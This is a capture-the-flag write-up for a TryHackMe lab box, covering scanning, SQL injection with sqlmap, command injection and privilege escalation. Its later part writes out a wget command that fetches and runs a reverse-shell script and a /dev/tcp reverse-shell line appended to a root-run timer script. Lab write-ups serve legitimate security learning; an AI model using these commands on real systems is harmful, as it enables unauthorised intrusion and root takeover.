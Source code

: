 #  [Minotaur's Labyrinth (TryHackMe)](https://tryhackme.com/room/labyrinth8llv)

First an initial scan with rustscan:


<code>rustscan -a 10.10.139.83 --ulimit 5000</code>  


![PICTURE_RUSTSCAN](https://user-images.githubusercontent.com/93183445/140650388-04ab3337-b42c-4bd8-a1ab-cd0daca6c247.png)


After that, let's throw nmap at it:

<code>nmap -sV -sC 10.10.139.83</code>  

![PIC_NMAP](https://user-images.githubusercontent.com/93183445/140650415-24920e15-df4b-4513-9f75-8589d4ab716f.png)

Let's see what directories we can find:

<code>ffuf -u http://10.10.139.83/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt</code>  

While ffuf is doing its thing, I'll take a look at the ftp which allows anonymous login..
In the ftp directories is some rather interesting stuff, it looks like:

![PIC_FTP1](https://user-images.githubusercontent.com/93183445/140650439-3f17a701-b07c-4d76-aa5b-7c7bcc692865.png)

message.txt:  
<code>Daedalus is a clumsy person, he forgets a lot of things arount the labyrinth, have a look around, maybe you'll find something :)
-- Minotaur</code>

Let's explore further :)

![PIC_FTP2](https://user-images.githubusercontent.com/93183445/140650455-e0da12ec-90bd-451b-978c-88a7b2a8506e.png)

Aaaand we got the fist flag!!!

keep_in_mind.txt (this info will come in handy a bit later):  
<code>Not to forget, he forgets a lot of stuff, that's why he likes to keep things on a timer ... literally
-- Minotaur</code>

While ffuf is still running, I'm going to take a look at the website:

![PIC_WEB1](https://user-images.githubusercontent.com/93183445/140650473-eaeb3905-efe9-4ea6-928d-c58b19b691a5.png)

No matter what I typed in, there seems to happen no response what so ever. Let's take a look at the source:  
(The hyperlinks are not what they seem, but go for it, if you feel adventurous, lol)

The source code reveals:

![PIC_WEB2](https://user-images.githubusercontent.com/93183445/140650530-b1c3ac5c-9e94-4b87-9bb4-ded0ae887ac5.png)

A look at "view-source:http://10.10.139.83/js/login.js" also reveals nothing of value..

In the meantime ffuf managed to finish:

![PIC_FUFF](https://user-images.githubusercontent.com/93183445/140650575-eccbffef-c76e-44a0-9854-bb71b9747314.png)

Going through the directories, we can find something interesting in the logs directory.
It looks like a captured Burp request which reveals credentials.

---------------------------------------------------------------------------------

POST /minotaur/minotaur-box/login.php HTTP/1.1\
Host: 127.0.0.1\
Content-Length: 36\
sec-ch-ua: "Chromium";v="93", " Not;A Brand";v="99"\
Accept: */*\
Content-Type: application/x-www-form-urlencoded; charset=UTF-8\
X-Requested-With: XMLHttpRequest\
sec-ch-ua-mobile: ?0\
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.82 Safari/537.36\
sec-ch-ua-platform: "Windows"\
Origin: http://127.0.0.1\
Sec-Fetch-Site: same-origin\
Sec-Fetch-Mode: cors\
Sec-Fetch-Dest: empty\
Referer: http://127.0.0.1/minotaur/minotaur-box/login.html\
Accept-Encoding: gzip, deflate\
Accept-Language: de-DE,de;q=0.9,en-US;q=0.8,en;q=0.7\
Cookie: PHPSESSID=8co2rbqdli7itj8f566c61nkhv\
Connection: close\

email=hidden&password=hidden


---------------------------------------------------------------------------------

Because I got no response from the login, I turned to the ftp with these very creds, but this trip led to nowhere..
Out of pure desperateness, I turned to the login page again, and got in :) 

![PIC_LANDING1](https://user-images.githubusercontent.com/93183445/140650895-ae7fdda0-ca6d-4505-86ac-e9750e928900.png)

So far we have two names: 'Daedalus' and 'Minotaur'.  
Plus we can appearantly search for 'People' and 'Creatures'.  
Let's do that...

![PIC_LANDING2](https://user-images.githubusercontent.com/93183445/140650903-8dd321a7-1c95-4fd7-b6dd-b90e9cea2d5e.png)

Seems to be some kind of database thingy.. Let's catch the request with Burp and let sqlmap deal with the heavy load.

<code>sqlmap -r req_master.txt --dbs --batch --time-sec=3</code>

Aaaaand we get a hit:

![PIC_SQLMAP1](https://user-images.githubusercontent.com/93183445/140650920-fe7f8b49-d593-4ee4-a906-6c0cce29b8f4.png)

Dump it:

![PIC_SQLMAP2](https://user-images.githubusercontent.com/93183445/140650926-7ff4ef49-4982-45f4-aed7-72e35b7cf2e0.png)

![PIC_SQLMAP3](https://user-images.githubusercontent.com/93183445/140650932-0d1a0c5a-21c6-4d44-993f-846400eff686.png)

As the newly found user with admin rights is in the same table as Daedalus, with whom we were able to login  
before, let's find out if we get in with these creds, after a short trip to Crackstation..  
(https://crackstation.net)

After we log in, we can find the flag in the upper left corner of the site. Besides that, there is a
hyperlink "Secret_Stuff".  
That sounds interesting enough to follow that. Who could resist that..?

![PIC_LANDING3](https://user-images.githubusercontent.com/93183445/140650947-46ec7a1c-6559-4a86-ab0c-370d925017fe.png)

The link leads to the "secret echo panel". There we can input stuff and it gets reflected on the page. Twice.  
No matter what I was trying in regards to command injection, it didn't get me command execution.  
This site led me finally to using backticks, instead of quotation marks.  
[https://book.hacktricks.xyz/pentesting-web/command-injection](https://book.hacktricks.xyz/pentesting-web/command-injection)

\`ls\` shows us:

![PIC_RCE1](https://user-images.githubusercontent.com/93183445/140650956-67398bff-8298-49e7-920f-57642485ca02.png)

So we got rce, let's explore that. And we can find flag3 in the user home directory, which we also are able to read.  

Let's try \`cat /home/user\`

![PIC_RCE2](https://user-images.githubusercontent.com/93183445/140650965-b12da9b1-b7f2-4923-9fc0-c2333e4a7158.png)

Okidoky.. Let's get a shell then. I had to try a few things and ended up with:

\`/usr/bin/wget YOUR-IP/rev.txt -O /tmp/rev.sh\`

Content of rev.txt ([https://www.revshells.com](https://www.revshells.com)):
  
![PIC_REV1](https://user-images.githubusercontent.com/93183445/140651318-d67dd2b4-6a44-4e16-abaf-c89fec962ac7.png)

Set up a local server to serve the shell:  
  
<code>python3 -m http.server 80</code>  
  
Then set up a listener  
  
<code>nc -lnvp 9001</code>
  
and execute the freshly downloaded reverse shell on the target:  
  
\`bash /tmp/rev.sh\`

![PIC_REV2](https://user-images.githubusercontent.com/93183445/140651333-9964013c-007a-45ff-b3f1-e1d662fa0927.png)

After running linpeas.sh and searching around for a bit, I got a tip. Remember the content of one of the files we  
found in the ftp earlier. There a timer is mentioned (didn't make the connection, I got a tip..).  
There's a file in the root directory that we can write to.  
Plus it is owned by root.. So let's abuse that and pack a rev-shell in that very file :)

![PIC_REV3](https://user-images.githubusercontent.com/93183445/140651338-c8f5a0cf-5939-4dac-ab46-d50150fe698f.png)
  
<code>echo 'sh -i >& /dev/tcp/YOUR-IP/6666 0>&1' >> timer.sh</code>  

Start another listener and it will connect without any further doing. Now you're root _tataaaa_ \
So let's go and get the final flag in the /root directory:

![PIC_FINAL](https://user-images.githubusercontent.com/93183445/140651348-8391acb8-eb86-438f-9e62-20d61c21fa4f.png)

DONE :)











































